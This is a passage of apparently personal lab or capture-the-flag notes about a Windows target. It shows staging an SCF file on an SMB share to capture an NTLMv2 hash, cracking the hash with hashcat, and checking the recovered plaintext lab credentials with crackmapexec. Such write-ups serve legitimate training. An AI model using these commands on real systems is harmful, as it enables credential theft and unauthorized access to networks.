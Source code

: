 

copy scf to smbshare and start smbshare

```bahs
smbserver.py -smb2support share ./ &
sudo cp hello.scp /mnt/sizzle/Users/Public
```

got hash, save to file and crack.

Amanda:Ashare1972

```bash
## crack hash. 
hashcat -m 5600 amanda.ntlmv2 /usr/share/wordlists/rockyou.txt --force
```



check the password.

```bash
crackmapexec smb $tip -u amanda -p 'Ashare1972' --shares
crackmapexec winrm $tip -u amanda -p 'Ashare1972'
```

correct password, not able to winrm. 

`The server did not response with one of the following authentication methods Negotiate, Kerberos, NTLM - actual: ''`

![image-20221218005816443](./images/image-20221218005816443.png)

